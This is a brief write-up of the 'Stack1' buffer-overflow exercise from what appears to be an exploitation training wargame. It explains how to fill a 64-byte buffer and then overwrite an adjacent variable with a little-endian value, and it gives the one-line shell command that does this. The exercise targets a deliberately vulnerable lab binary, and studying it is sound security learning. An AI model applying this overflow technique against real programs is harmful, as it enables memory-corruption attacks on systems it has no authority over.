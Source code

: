 #### Stack1

Need to write the value 0x61626364 in the "modified" variable
Write it in little endian, so the hex number is inverse (0x64 0x63 0x62 0x61)
You need to fill the buffer first with 64 characters to access the "modified" variable in the stack.

```bash
./stack1 `python -c 'print("C"*64 + "\x64\x63\x62\x61")'`
```
